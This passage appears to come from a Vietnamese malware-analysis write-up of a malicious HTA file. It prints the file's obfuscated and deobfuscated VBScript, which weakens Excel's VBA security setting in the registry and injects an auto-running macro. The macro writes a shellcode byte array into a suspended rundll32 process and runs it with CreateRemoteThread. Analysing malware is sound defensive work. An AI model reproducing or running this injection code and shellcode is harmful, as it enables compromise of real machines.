xlmodule.CodeModule.AddFromString "Private "&"Type PRO"&"CESS_INF"&"ORMATION"&Chr(10)&"    hPro"&"cess As "&"Long"&Chr(10)&"    hThr"&"ead As L"&"ong"&Chr(10)&"    dwPr"&"ocessId "&"As Long"&Chr(10)&"    dwTh"&"readId A"&"s Long"&Chr(10)& _
"End Type"&Chr(10)&Chr(10)&"Private "&"Type STA"&"RTUPINFO"&Chr(10)&"    cb A"&"s Long"&Chr(10)&"    lpRe"&"served A"&"s String"&Chr(10)&"    lpDe"&"sktop As"&" String"&Chr(10)&"    lpTi"&"tle As S"&"tring"& _
Chr(10)&"    dwX "&"As Long"&Chr(10)&"    dwY "&"As Long"&Chr(10)&"    dwXS"&"ize As L"&"ong"&Chr(10)&"    dwYS"&"ize As L"&"ong"&Chr(10)&"    dwXC"&"ountChar"&"s As Lon"&"g"&Chr(10)&"    dwYC"&"ountChar"& _
"s As Lon"&"g"&Chr(10)&"    dwFi"&"llAttrib"&"ute As L"&"ong"&Chr(10)&"    dwFl"&"ags As L"&"ong"&Chr(10)&"    wSho"&"wWindow "&"As Integ"&"er"&Chr(10)&"    cbRe"&"served2 "&"As Integ"&"er"&Chr(10)&"    lpRe"& _
"served2 "&"As Long"&Chr(10)&"    hStd"&"Input As"&" Long"&Chr(10)&"    hStd"&"Output A"&"s Long"&Chr(10)&"    hStd"&"Error As"&" Long"&Chr(10)&"End Type"&Chr(10)&Chr(10)&Chr(35)&"If VBA7 "&"Then"&Chr(10)& _
"    Priv"&"ate Decl"&"are PtrS"&"afe Func"&"tion Cre"&"ateStuff"&" Lib "&Chr(34)&"kernel32"&Chr(34)&" Alias "&Chr(34)&"CreateRe"&"moteThre"&"ad"&Chr(34)&" "&Chr(40)&"ByVal hP"&"rocess A"&"s Long"&Chr(44)& _
" ByVal l"&"pThreadA"&"ttribute"&"s As Lon"&"g"&Chr(44)&" ByVal d"&"wStackSi"&"ze As Lo"&"ng"&Chr(44)&" ByVal l"&"pStartAd"&"dress As"&" LongPtr"&Chr(44)&" lpParam"&"eter As "&"Long"&Chr(44)&" ByVal d"& _
"wCreatio"&"nFlags A"&"s Long"&Chr(44)&" lpThrea"&"dID As L"&"ong"&Chr(41)&" As Long"&"Ptr"&Chr(10)&"    Priv"&"ate Decl"&"are PtrS"&"afe Func"&"tion All"&"ocStuff "&"Lib "&Chr(34)&"kernel32"&Chr(34)&" Alias "& _
Chr(34)&"VirtualA"&"llocEx"&Chr(34)&" "&Chr(40)&"ByVal hP"&"rocess A"&"s Long"&Chr(44)&" ByVal l"&"pAddr As"&" Long"&Chr(44)&" ByVal l"&"Size As "&"Long"&Chr(44)&" ByVal f"&"lAllocat"&"ionType "&"As Long"& _
Chr(44)&" ByVal f"&"lProtect"&" As Long"&Chr(41)&" As Long"&"Ptr"&Chr(10)&"    Priv"&"ate Decl"&"are PtrS"&"afe Func"&"tion Wri"&"teStuff "&"Lib "&Chr(34)&"kernel32"&Chr(34)&" Alias "&Chr(34)&"WritePro"& _
"cessMemo"&"ry"&Chr(34)&" "&Chr(40)&"ByVal hP"&"rocess A"&"s Long"&Chr(44)&" ByVal l"&"Dest As "&"LongPtr"&Chr(44)&" ByRef S"&"ource As"&" Any"&Chr(44)&" ByVal L"&"ength As"&" Long"&Chr(44)&" ByVal L"& _
"engthWro"&"te As Lo"&"ngPtr"&Chr(41)&" As Long"&"Ptr"&Chr(10)&"    Priv"&"ate Decl"&"are PtrS"&"afe Func"&"tion Run"&"Stuff Li"&"b "&Chr(34)&"kernel32"&Chr(34)&" Alias "&Chr(34)&"CreatePr"&"ocessA"&Chr(34)& _
" "&Chr(40)&"ByVal lp"&"Applicat"&"ionName "&"As Strin"&"g"&Chr(44)&" ByVal l"&"pCommand"&"Line As "&"String"&Chr(44)&" lpProce"&"ssAttrib"&"utes As "&"Any"&Chr(44)&" lpThrea"&"dAttribu"&"tes As A"&"ny"& _
Chr(44)&" ByVal b"&"InheritH"&"andles A"&"s Long"&Chr(44)&" ByVal d"&"wCreatio"&"nFlags A"&"s Long"&Chr(44)&" lpEnvir"&"onment A"&"s Any"&Chr(44)&" ByVal l"&"pCurrent"&"Director"&"y As Str"&"ing"&Chr(44)& _
" lpStart"&"upInfo A"&"s STARTU"&"PINFO"&Chr(44)&" lpProce"&"ssInform"&"ation As"&" PROCESS"&"_INFORMA"&"TION"&Chr(41)&" As Long"&Chr(10)&Chr(35)&"Else"&Chr(10)&"    Priv"&"ate Decl"&"are Func"&"tion Cre"& _
"ateStuff"&" Lib "&Chr(34)&"kernel32"&Chr(34)&" Alias "&Chr(34)&"CreateRe"&"moteThre"&"ad"&Chr(34)&" "&Chr(40)&"ByVal hP"&"rocess A"&"s Long"&Chr(44)&" ByVal l"&"pThreadA"&"ttribute"&"s As Lon"&"g"&Chr(44)& _
" ByVal d"&"wStackSi"&"ze As Lo"&"ng"&Chr(44)&" ByVal l"&"pStartAd"&"dress As"&" Long"&Chr(44)&" lpParam"&"eter As "&"Long"&Chr(44)&" ByVal d"&"wCreatio"&"nFlags A"&"s Long"&Chr(44)&" lpThrea"&"dID As L"& _
"ong"&Chr(41)&" As Long"&Chr(10)&"    Priv"&"ate Decl"&"are Func"&"tion All"&"ocStuff "&"Lib "&Chr(34)&"kernel32"&Chr(34)&" Alias "&Chr(34)&"VirtualA"&"llocEx"&Chr(34)&" "&Chr(40)&"ByVal hP"&"rocess A"& _
"s Long"&Chr(44)&" ByVal l"&"pAddr As"&" Long"&Chr(44)&" ByVal l"&"Size As "&"Long"&Chr(44)&" ByVal f"&"lAllocat"&"ionType "&"As Long"&Chr(44)&" ByVal f"&"lProtect"&" As Long"&Chr(41)&" As Long"&Chr(10)& _
"    Priv"&"ate Decl"&"are Func"&"tion Wri"&"teStuff "&"Lib "&Chr(34)&"kernel32"&Chr(34)&" Alias "&Chr(34)&"WritePro"&"cessMemo"&"ry"&Chr(34)&" "&Chr(40)&"ByVal hP"&"rocess A"&"s Long"&Chr(44)&" ByVal l"& _
"Dest As "&"Long"&Chr(44)&" ByRef S"&"ource As"&" Any"&Chr(44)&" ByVal L"&"ength As"&" Long"&Chr(44)&" ByVal L"&"engthWro"&"te As Lo"&"ng"&Chr(41)&" As Long"&Chr(10)&"    Priv"&"ate Decl"&"are Func"&"tion Run"& _
"Stuff Li"&"b "&Chr(34)&"kernel32"&Chr(34)&" Alias "&Chr(34)&"CreatePr"&"ocessA"&Chr(34)&" "&Chr(40)&"ByVal lp"&"Applicat"&"ionName "&"As Strin"&"g"&Chr(44)&" ByVal l"&"pCommand"&"Line As "&"String"&Chr(44)& _
" lpProce"&"ssAttrib"&"utes As "&"Any"&Chr(44)&" lpThrea"&"dAttribu"&"tes As A"&"ny"&Chr(44)&" ByVal b"&"InheritH"&"andles A"&"s Long"&Chr(44)&" ByVal d"&"wCreatio"&"nFlags A"&"s Long"&Chr(44)&" lpEnvir"& _
"onment A"&"s Any"&Chr(44)&" ByVal l"&"pCurrent"&"Driector"&"y As Str"&"ing"&Chr(44)&" lpStart"&"upInfo A"&"s STARTU"&"PINFO"&Chr(44)&" lpProce"&"ssInform"&"ation As"&" PROCESS"&"_INFORMA"&"TION"&Chr(41)& _
" As Long"&Chr(10)&Chr(35)&"End If"&Chr(10)&Chr(10)&"Sub Auto"&"_Open"&Chr(40)&Chr(41)&Chr(10)&"    Dim "&"myByte A"&"s Long"&Chr(44)&" myArray"&" As Vari"&"ant"&Chr(44)&" offset "&"As Long"&Chr(10)&"    Dim "& _
"pInfo As"&" PROCESS"&"_INFORMA"&"TION"&Chr(10)&"    Dim "&"sInfo As"&" STARTUP"&"INFO"&Chr(10)&"    Dim "&"sNull As"&" String"&Chr(10)&"    Dim "&"sProc As"&" String"&Chr(10)&Chr(10)&Chr(35)&"If VBA7 "& _
"Then"&Chr(10)&"    Dim "&"rwxpage "&"As LongP"&"tr"&Chr(44)&" res As "&"LongPtr"&Chr(10)&Chr(35)&"Else"&Chr(10)&"    Dim "&"rwxpage "&"As Long"&Chr(44)&" res As "&"Long"&Chr(10)&Chr(35)&"End If"&Chr(10)& _
"    myAr"&"ray "&Chr(61)&" Array"&Chr(40)&Chr(45)&"35"&Chr(44)&Chr(45)&"63"&Chr(44)&Chr(45)&"65"&Chr(44)&"32"&Chr(44)&"86"&Chr(44)&"66"&Chr(44)&"126"&Chr(44)&Chr(45)&"39"&Chr(44)&"116"&Chr(44)&"36"&Chr(44)& _
Chr(45)&"12"&Chr(44)&"91"&Chr(44)&"49"&Chr(44)&Chr(45)&"55"&Chr(44)&Chr(45)&"79"&Chr(44)&"98"&Chr(44)&"49"&Chr(44)&"123"&Chr(44)&"24"&Chr(44)&"3"&Chr(44)&"123"&Chr(44)&"24"&Chr(44)&Chr(45)&"125"&Chr(44)& _
Chr(45)&"61"&Chr(44)&"36"&Chr(44)&Chr(45)&"76"&Chr(44)&Chr(45)&"73"&Chr(44)&Chr(45)&"126"&Chr(44)&Chr(45)&"52"&Chr(44)&Chr(45)&"70"&Chr(44)&"56"&Chr(44)&"123"&Chr(44)&"12"&Chr(44)&Chr(45)&"37"&Chr(44)&Chr(45)& _
"79"&Chr(44)&Chr(45)&"98"&Chr(44)&"61"&Chr(44)&Chr(45)&"37"&Chr(44)&Chr(45)&"90"&Chr(44)&Chr(45)&"21"&Chr(44)&"109"&Chr(44)&Chr(45)&"21"&Chr(44)&Chr(45)&"83"&Chr(44)&Chr(45)&"66"&Chr(44)&Chr(45)&"127"&Chr(44)& _
Chr(45)&"128"&Chr(44)&Chr(45)&"32"&Chr(44)&"42"&Chr(44)&"18"&Chr(44)&Chr(45)&"28"&Chr(44)&"44"&Chr(44)&"92"&Chr(44)&Chr(45)&"109"&Chr(44)&"67"&Chr(44)&"11"&Chr(44)&"83"&Chr(44)&"36"&Chr(44)&Chr(45)&"1"&Chr(44)& _
"111"&Chr(44)&Chr(45)&"14"&Chr(44)&Chr(45)&"90"&Chr(44)&"2"&Chr(44)&Chr(45)&"68"&Chr(44)&Chr(45)&"44"&Chr(44)&Chr(45)&"105"&Chr(44)&Chr(45)&"52"&Chr(44)&Chr(45)&"79"&Chr(44)&"21"&Chr(44)&Chr(45)&"48"&Chr(44)& _
"49"&Chr(44)&"59"&Chr(44)&"71"&Chr(44)&Chr(45)&"119"&Chr(44)&"62"&Chr(44)&Chr(45)&"18"&Chr(44)&"120"&Chr(44)&Chr(45)&"66"&Chr(44)&"11"&Chr(44)&"51"&Chr(44)&Chr(45)&"14"&Chr(44)&Chr(45)&"116"&Chr(44)&Chr(45)& _
"102"&Chr(44)&"51"&Chr(44)&Chr(45)&"25"&Chr(44)&"68"&Chr(44)&Chr(45)&"100"&Chr(44)&"18"&Chr(44)&Chr(45)&"74"&Chr(44)&Chr(45)&"33"&Chr(44)&Chr(45)&"57"&Chr(44)&Chr(45)&"76"&Chr(44)&"56"&Chr(44)&"12"&Chr(44)& _
"124"&Chr(44)&Chr(45)&"3"&Chr(44)&"34"&Chr(44)&"81"&Chr(44)&Chr(45)&"71"&Chr(44)&Chr(45)&"73"&Chr(44)&Chr(45)&"39"&Chr(44)&Chr(45)&"95"&Chr(44)&"53"&Chr(44)&"70"&Chr(44)&"8"&Chr(44)&Chr(45)&"8"&Chr(44)&Chr(45)& _
"74"&Chr(44)&Chr(45)&"27"&Chr(44)&"117"&Chr(44)&"53"&Chr(44)&"69"&Chr(44)&Chr(45)&"9"&Chr(44)&Chr(45)&"78"&Chr(44)&Chr(45)&"15"&Chr(44)&Chr(45)&"74"&Chr(44)&Chr(45)&"126"&Chr(44)&Chr(45)&"54"&Chr(44)&"2"& _
Chr(44)&"74"&Chr(44)&Chr(45)&"107"&Chr(44)&"8"&Chr(44)&"121"&Chr(44)&Chr(45)&"112"&Chr(44)&"16"&Chr(44)&Chr(45)&"117"&Chr(44)&Chr(45)&"39"&Chr(44)&"83"&Chr(44)&Chr(45)&"126"&Chr(44)&"119"&Chr(44)&Chr(45)& _
"40"&Chr(44)&Chr(45)&"80"&Chr(44)&"85"&Chr(44)&Chr(45)&"13"&Chr(44)&Chr(45)&"42"&Chr(44)&"125"&Chr(44)&"17"&Chr(44)&"91"&Chr(44)&Chr(45)&"6"&Chr(44)&Chr(45)&"128"&Chr(44)&Chr(45)&"10"&Chr(44)&Chr(45)&"41"& _
Chr(44)&"6"&Chr(44)&"8"&Chr(44)&Chr(45)&"7"&Chr(44)&"55"&Chr(44)&Chr(45)&"113"&Chr(44)&"74"&Chr(44)&Chr(45)&"34"&Chr(44)&Chr(45)&"109"&Chr(44)&Chr(45)&"44"&Chr(44)&"9"&Chr(44)&"127"&Chr(44)&Chr(45)&"123"& _
Chr(44)&Chr(45)&"80"&Chr(44)&Chr(45)&"4"&Chr(44)&Chr(45)&"128"&Chr(44)&Chr(45)&"43"&Chr(44)&"27"&Chr(44)&Chr(45)&"96"&Chr(44)&"36"&Chr(44)&Chr(45)&"99"&Chr(44)&Chr(45)&"79"&Chr(44)&Chr(45)&"75"&Chr(44)&"84"& _
Chr(44)&Chr(45)&"4"&Chr(44)&Chr(45)&"35"&Chr(44)&"122"&Chr(44)&"85"&Chr(44)&Chr(45)&"1"&Chr(44)&"29"&Chr(44)&"21"&Chr(44)&Chr(45)&"18"&Chr(44)&Chr(45)&"116"&Chr(44)&"47"&Chr(44)&Chr(45)&"70"&Chr(44)&"68"& _
Chr(44)&"27"&Chr(44)&"3"&Chr(44)&"51"&Chr(44)&"67"&Chr(44)&Chr(45)&"36"&Chr(44)&"100"&Chr(44)&"110"&Chr(44)&"51"&Chr(44)&"114"&Chr(44)&Chr(45)&"101"&Chr(44)&Chr(45)&"111"&Chr(44)&"68"&Chr(44)&"90"&Chr(44)& _
"95"&Chr(44)&Chr(45)&"59"&Chr(44)&"20"&Chr(44)&Chr(45)&"12"&Chr(44)&"118"&Chr(44)&"102"&Chr(44)&Chr(45)&"1"&Chr(44)&"4"&Chr(44)&"119"&Chr(44)&Chr(45)&"77"&Chr(44)&"80"&Chr(44)&"85"&Chr(44)&Chr(45)&"41"&Chr(44)& _
"108"&Chr(44)&"17"&Chr(44)&"5"&Chr(44)&Chr(45)&"105"&Chr(44)&Chr(45)&"36"&Chr(44)&Chr(45)&"7"&Chr(44)&"79"&Chr(44)&"24"&Chr(44)&"2"&Chr(44)&"25"&Chr(44)&"112"&Chr(44)&Chr(45)&"13"&Chr(44)&"43"&Chr(44)&"50"& _
Chr(44)&Chr(45)&"88"&Chr(44)&Chr(45)&"5"&Chr(44)&"83"&Chr(44)&Chr(45)&"61"&Chr(44)&Chr(45)&"46"&Chr(44)&Chr(45)&"115"&Chr(44)&"58"&Chr(44)&Chr(45)&"81"&Chr(44)&"49"&Chr(44)&"21"&Chr(44)&Chr(45)&"46"&Chr(44)& _
"66"&Chr(44)&"43"&Chr(44)&Chr(45)&"68"&Chr(44)&"66"&Chr(44)&Chr(45)&"77"&Chr(44)&Chr(45)&"59"&Chr(44)&"81"&Chr(44)&Chr(45)&"76"&Chr(44)&Chr(45)&"125"&Chr(44)&"77"&Chr(44)&Chr(45)&"17"&Chr(44)&Chr(45)&"79"& _
Chr(44)&"116"&Chr(44)&"94"&Chr(44)&Chr(45)&"80"&Chr(44)&"2"&Chr(44)&"72"&Chr(44)&Chr(45)&"22"&Chr(44)&"17"&Chr(44)&Chr(45)&"7"&Chr(44)&Chr(45)&"58"&Chr(44)&"33"&Chr(44)&Chr(45)&"14"&Chr(44)&"113"&Chr(44)& _
"127"&Chr(44)&"119"&Chr(44)&"127"&Chr(44)&"26"&Chr(44)&"76"&Chr(44)&"37"&Chr(44)&"2"&Chr(44)&Chr(45)&"38"&Chr(44)&Chr(45)&"38"&Chr(44)&"96"&Chr(44)&Chr(45)&"44"&Chr(44)&Chr(45)&"18"&Chr(44)&Chr(45)&"102"& _
Chr(44)&Chr(45)&"116"&Chr(44)&Chr(45)&"15"&Chr(44)&Chr(45)&"124"&Chr(44)&Chr(45)&"37"&Chr(44)&"110"&Chr(44)&Chr(45)&"109"&Chr(44)&Chr(45)&"112"&Chr(44)&Chr(45)&"117"&Chr(44)&Chr(45)&"26"&Chr(44)&"97"&Chr(44)& _
Chr(45)&"91"&Chr(44)&"42"&Chr(44)&"76"&Chr(44)&Chr(45)&"20"&Chr(44)&"67"&Chr(44)&"70"&Chr(44)&Chr(45)&"94"&Chr(44)&Chr(45)&"72"&Chr(44)&Chr(45)&"36"&Chr(44)&Chr(45)&"1"&Chr(44)&"91"&Chr(44)&Chr(45)&"31"& _
Chr(44)&Chr(45)&"105"&Chr(44)&Chr(45)&"98"&Chr(44)&Chr(45)&"92"&Chr(44)&"60"&Chr(44)&Chr(45)&"46"&Chr(44)&Chr(45)&"95"&Chr(44)&"47"&Chr(44)&Chr(45)&"76"&Chr(44)&"34"&Chr(44)&"111"&Chr(44)&Chr(45)&"40"&Chr(44)& _
Chr(45)&"67"&Chr(44)&"48"&Chr(44)&Chr(45)&"104"&Chr(44)&Chr(45)&"65"&Chr(44)&"61"&Chr(44)&Chr(45)&"55"&Chr(44)&"89"&Chr(44)&"42"&Chr(44)&"61"&Chr(44)&Chr(45)&"93"&Chr(44)&"93"&Chr(44)&Chr(45)&"4"&Chr(44)& _
"106"&Chr(44)&"91"&Chr(44)&"92"&Chr(44)&Chr(45)&"39"&Chr(44)&"92"&Chr(44)&Chr(45)&"60"&Chr(44)&Chr(45)&"97"&Chr(44)&"12"&Chr(44)&Chr(45)&"33"&Chr(44)&"3"&Chr(44)&"95"&Chr(44)&Chr(45)&"47"&Chr(44)&Chr(45)& _
"23"&Chr(44)&"120"&Chr(44)&"86"&Chr(44)&"71"&Chr(44)&"85"&Chr(44)&"23"&Chr(44)&Chr(45)&"105"&Chr(44)&Chr(45)&"121"&Chr(44)&"85"&Chr(44)&Chr(45)&"25"&Chr(44)&Chr(45)&"63"&Chr(44)&Chr(45)&"51"&Chr(44)&"85"& _
Chr(44)&Chr(45)&"113"&Chr(44)&Chr(45)&"75"&Chr(44)&Chr(45)&"75"&Chr(44)&"6"&Chr(44)&Chr(45)&"86"&Chr(44)&Chr(45)&"71"&Chr(44)&"99"&Chr(44)&"59"&Chr(44)&"103"&Chr(44)&"44"&Chr(44)&Chr(45)&"116"&Chr(44)&"109"& _
Chr(44)&Chr(45)&"37"&Chr(44)&Chr(45)&"25"&Chr(44)&Chr(45)&"28"&Chr(44)&Chr(45)&"109"&Chr(44)&"2"&Chr(44)&Chr(45)&"49"&Chr(44)&Chr(45)&"86"&Chr(44)&"108"&Chr(44)&"97"&Chr(44)&"83"&Chr(44)&Chr(45)&"84"&Chr(44)& _
Chr(45)&"110"&Chr(44)&Chr(45)&"9"&Chr(44)&"124"&Chr(44)&"21"&Chr(44)&Chr(45)&"6"&Chr(44)&"7"&Chr(44)&"61"&Chr(44)&Chr(45)&"91"&Chr(44)&Chr(45)&"6"&Chr(44)&"109"&Chr(44)&Chr(45)&"67"&Chr(44)&Chr(45)&"11"& _
Chr(44)&Chr(45)&"110"&Chr(44)&"122"&Chr(44)&Chr(45)&"110"&Chr(44)&Chr(45)&"6"&Chr(44)&"82"&Chr(44)&Chr(45)&"126"&Chr(44)&"57"&Chr(44)&"83"&Chr(44)&Chr(45)&"6"&Chr(44)&"9"&Chr(44)&Chr(45)&"84"&Chr(44)&"17"& _
Chr(44)&Chr(45)&"101"&Chr(44)&"14"&Chr(44)&Chr(45)&"27"&Chr(44)&Chr(45)&"12"&Chr(44)&"5"&Chr(44)&"14"&Chr(44)&"10"&Chr(44)&"45"&Chr(44)&Chr(45)&"74"&Chr(44)&"117"&Chr(44)&"95"&Chr(44)&Chr(45)&"46"&Chr(44)& _
"55"&Chr(44)&Chr(45)&"118"&Chr(44)&Chr(45)&"119"&Chr(44)&Chr(45)&"73"&Chr(44)&"56"&Chr(44)&Chr(45)&"118"&Chr(44)&Chr(45)&"75"&Chr(44)&Chr(45)&"55"&Chr(44)&"5"&Chr(44)&"92"&Chr(44)&Chr(45)&"116"&Chr(44)&Chr(45)& _
"65"&Chr(44)&"72"&Chr(44)&"92"&Chr(44)&Chr(45)&"85"&Chr(44)&Chr(45)&"80"&Chr(44)&Chr(45)&"1"&Chr(44)&Chr(45)&"63"&Chr(44)&Chr(45)&"102"&Chr(44)&"90"&Chr(44)&Chr(45)&"1"&Chr(44)&"86"&Chr(44)&Chr(45)&"36"&Chr(44)& _
"78"&Chr(41)&Chr(10)&"    If L"&"en"&Chr(40)&"Environ"&Chr(40)&Chr(34)& _
"ProgramW"&"6432"&Chr(34)&Chr(41)&Chr(41)&" "&Chr(62)&" 0 Then"&Chr(10)&"        "&"sProc "&Chr(61)&" Environ"&Chr(40)&Chr(34)&"windir"&Chr(34)&Chr(41)&" "&Chr(38)&" "&Chr(34)&Chr(92)&Chr(92)&"SysWOW64"& _
Chr(92)&Chr(92)&"rundll32"&Chr(46)&"exe"&Chr(34)&Chr(10)&"    Else"&Chr(10)&"        "&"sProc "&Chr(61)&" Environ"&Chr(40)&Chr(34)&"windir"&Chr(34)&Chr(41)&" "&Chr(38)&" "&Chr(34)&Chr(92)&Chr(92)&"System32"& _
Chr(92)&Chr(92)&"rundll32"&Chr(46)&"exe"&Chr(34)&Chr(10)&"    End "&"If"&Chr(10)&Chr(10)&"    res "&Chr(61)&" RunStuf"&"f"&Chr(40)&"sNull"&Chr(44)&" sProc"&Chr(44)&" ByVal 0"&Chr(38)&Chr(44)&" ByVal 0"& _
Chr(38)&Chr(44)&" ByVal 1"&Chr(38)&Chr(44)&" ByVal 4"&Chr(38)&Chr(44)&" ByVal 0"&Chr(38)&Chr(44)&" sNull"&Chr(44)&" sInfo"&Chr(44)&" pInfo"&Chr(41)&Chr(10)&Chr(10)&"    rwxp"&"age "&Chr(61)&" AllocSt"& _
"uff"&Chr(40)&"pInfo"&Chr(46)&"hProcess"&Chr(44)&" 0"&Chr(44)&" UBound"&Chr(40)&"myArray"&Chr(41)&Chr(44)&" "&Chr(38)&"H1000"&Chr(44)&" "&Chr(38)&"H40"&Chr(41)&Chr(10)&"    For "&"offset "&Chr(61)&" LBound"& _
Chr(40)&"myArray"&Chr(41)&" To UBou"&"nd"&Chr(40)&"myArray"&Chr(41)&Chr(10)&"        "&"myByte "&Chr(61)&" myArray"&Chr(40)&"offset"&Chr(41)&Chr(10)&"        "&"res "&Chr(61)&" WriteSt"&"uff"&Chr(40)&"pInfo"& _
Chr(46)&"hProcess"&Chr(44)&" rwxpage"&" "&Chr(43)&" offset"&Chr(44)&" myByte"&Chr(44)&" 1"&Chr(44)&" ByVal 0"&Chr(38)&Chr(41)&Chr(10)&"    Next"&" offset"&Chr(10)&"    res "&Chr(61)&" CreateS"&"tuff"&Chr(40)& _
"pInfo"&Chr(46)&"hProcess"&Chr(44)&" 0"&Chr(44)&" 0"&Chr(44)&" rwxpage"&Chr(44)&" 0"&Chr(44)&" 0"&Chr(44)&" 0"&Chr(41)&Chr(10)&"End Sub"&Chr(10)&"Sub Auto"&"Open"&Chr(40)&Chr(41)&Chr(10)&"    Auto"&"_Open"& _
Chr(10)&"End Sub"&Chr(10)&"Sub Work"&"book_Ope"&"n"&Chr(40)&Chr(41)&Chr(10)&"    Auto"&"_Open"&Chr(10)&"End Sub"&Chr(10)
objExcel.DisplayAlerts = False
on error resume next
objExcel.Run "Auto_Open"
objWorkbook.Close False
objExcel.Quit

' Restore the registry to its old state
if action = "" then
        WshShell.RegDelete RegPath
else
        WshShell.RegWrite RegPath, action, "REG_DWORD"
end if
self.close
</script></head></html>
```

Thấy được VBA script hiện tại vẫn bị obfuscate nên tiếp tục sử dụng tool để deobfuscate.

```bash
dockervba --deob simulate LwTHLrGh.hta
```

Thu được:

```vbscript
Dim objExcel, WshShell, RegPath, action, objWorkbook, xlmodule

Set objExcel = CreateObject("Excel.Application")
objExcel.Visible = False

Set WshShell = CreateObject("Wscript.Shell")

function RegExists(regKey)
        on error resume next
        WshShell.RegRead regKey
        RegExists = (Err.number = 0)
end function

' Get the old AccessVBOM value
RegPath = "HKEY_CURRENT_USER\Software\Microsoft\Office\" & objExcel.Version & "\Excel\Security\AccessVBOM"

if RegExists(RegPath) then
        action = WshShell.RegRead(RegPath)
else
        action = ""
end if

' Weaken the target
WshShell.RegWrite RegPath, 1, "REG_DWORD"

' Run the macro
Set objWorkbook = objExcel.Workbooks.Add()
Set xlmodule = objWorkbook.VBProject.VBComponents.Add(1)
xlmodule.CodeModule.AddFromString "Private Type PROCESS_INFORMATION
    hProcess As Long
    hThread As Long
    dwProcessId As Long
    dwThreadId As Long
End Type

Private Type STARTUPINFO
    cb As Long
    lpReserved As String
    lpDesktop As String
    lpTitle As String
    dwX As Long
    dwY As Long
    dwXSize As Long
    dwYSize As Long
    dwXCountChars As Long
    dwYCountChars As Long
    dwFillAttribute As Long
    dwFlags As Long
    wShowWindow As Integer
    cbReserved2 As Integer
    lpReserved2 As Long
    hStdInput As Long
    hStdOutput As Long
    hStdError As Long
End Type

#If VBA7 Then
    Private Declare PtrSafe Function CreateStuff Lib ""kernel32"" Alias ""CreateRemoteThread"" (ByVal hProcess As Long, ByVal lpThreadAttributes As Long, ByVal dwStackSize As Long, ByVal lpStartAddress As LongPtr, lpParameter As Long, ByVal dwCreationFlags As Long, lpThreadID As Long) As LongPtr
    Private Declare PtrSafe Function AllocStuff Lib ""kernel32"" Alias ""VirtualAllocEx"" (ByVal hProcess As Long, ByVal lpAddr As Long, ByVal lSize As Long, ByVal flAllocationType As Long, ByVal flProtect As Long) As LongPtr
    Private Declare PtrSafe Function WriteStuff Lib ""kernel32"" Alias ""WriteProcessMemory"" (ByVal hProcess As Long, ByVal lDest As LongPtr, ByRef Source As Any, ByVal Length As Long, ByVal LengthWrote As LongPtr) As LongPtr
    Private Declare PtrSafe Function RunStuff Lib ""kernel32"" Alias ""CreateProcessA"" (ByVal lpApplicationName As String, ByVal lpCommandLine As String, lpProcessAttributes As Any, lpThreadAttributes As Any, ByVal bInheritHandles As Long, ByVal dwCreationFlags As Long, lpEnvironment As Any, ByVal lpCurrentDirectory As String, lpStartupInfo As STARTUPINFO, lpProcessInformation As PROCESS_INFORMATION) As Long
#Else
    Private Declare Function CreateStuff Lib ""kernel32"" Alias ""CreateRemoteThread"" (ByVal hProcess As Long, ByVal lpThreadAttributes As Long, ByVal dwStackSize As Long, ByVal lpStartAddress As Long, lpParameter As Long, ByVal dwCreationFlags As Long, lpThreadID As Long) As Long
    Private Declare Function AllocStuff Lib ""kernel32"" Alias ""VirtualAllocEx"" (ByVal hProcess As Long, ByVal lpAddr As Long, ByVal lSize As Long, ByVal flAllocationType As Long, ByVal flProtect As Long) As Long
    Private Declare Function WriteStuff Lib ""kernel32"" Alias ""WriteProcessMemory"" (ByVal hProcess As Long, ByVal lDest As Long, ByRef Source As Any, ByVal Length As Long, ByVal LengthWrote As Long) As Long
    Private Declare Function RunStuff Lib ""kernel32"" Alias ""CreateProcessA"" (ByVal lpApplicationName As String, ByVal lpCommandLine As String, lpProcessAttributes As Any, lpThreadAttributes As Any, ByVal bInheritHandles As Long, ByVal dwCreationFlags As Long, lpEnvironment As Any, ByVal lpCurrentDriectory As String, lpStartupInfo As STARTUPINFO, lpProcessInformation As PROCESS_INFORMATION) As Long
#End If

Sub Auto_Open()
    Dim myByte As Long, myArray As Variant, offset As Long
    Dim pInfo As PROCESS_INFORMATION
    Dim sInfo As STARTUPINFO
    Dim sNull As String
    Dim sProc As String

#If VBA7 Then
    Dim rwxpage As LongPtr, res As LongPtr
#Else
    Dim rwxpage As Long, res As Long
#End If
    myArray = Array(-35,-63,-65,32,86,66,126,-39,116,36,-12,91,49,-55,-79,98,49,123,24,3,123,24,-125,"& _
"-61,36,-76,-73,-126,-52,-70,56,123,12,-37,-"& _
"79,-98,61,-37,-90,-21,109,-21,-83,-66,-127,"& _
"-128,-32,42,18,-28,44,92,-109,67,11,83,36,-1,"& _
"111,-14,-90,2,-68,-44,-105,-52,-79,21,-48,"& _
"49,59,71,-119,62,-18,120,-66,11,51,-14,-116,-"& _
"102,51,-25,68,-100,18,-74,-33,-57,-76,56,12,"& _
"124,-3,34,81,-71,-73,-39,-95,53,70,8,-8,-"& _
"74,-27,117,53,69,-9,-78,-15,-74,-126,-54,2"& _
",74,-107,8,121,-112,16,-117,-39,83,-126,119,-"& _
"40,-80,85,-13,-42,125,17,91,-6,-128,-10,-41"& _
",6,8,-7,55,-113,74,-34,-109,-44,9,127,-123"& _
",-80,-4,-128,-43,27,-96,36,-99,-79,-75,84"& _
",-4,-35,122,85,-1,29,21,-18,-116,47,-70,68"& _
",27,3,51,67,-36,100,110,51,114,-101,-111,68,90,"& _
"95,-59,20,-12,118,102,-1,4,119,-77,80,85,-41,"& _
"108,17,5,-105,-36,-7,79,24,2,25,112,-13,43,50"& _
",-88,-5,83,-61,-46,-115,58,-81,49,21,-46,"& _
"66,43,-68,66,-77,-59,81,-76,-125,77,-17,-79"& _
",116,94,-80,2,72,-22,17,-7,-58,33,-14,113,"& _
"127,119,127,26,76,37,2,-38,-38,96,-44,-18,-102"& _
",-116,-15,-124,-37,110,-109,-112,-117,-26,97,"& _
"-91,42,76,-20,67,70,-94,-72,-36,-1,91,-31"& _
",-105,-98,-92,60,-46,-95,47,-76,34,111,-40,"& _
"-67,48,-104,-65,61,-55,89,42,61,-93,93,-4,"& _
"106,91,92,-39,92,-60,-97,12,-33,3,95,-47,-"& _
"23,120,86,71,85,23,-105,-121,85,-25,-63,-51,85"& _
",-113,-75,-75,6,-86,-71,99,59,103,44,-116,109"& _
",-37,-25,-28,-109,2,-49,-86,108,97,83,-84,"& _
"-110,-9,124,21,-6,7,61,-91,-6,109,-67,-11"& _
",-110,122,-110,-6,82,-126,57,83,-6,9,-84,17"& _
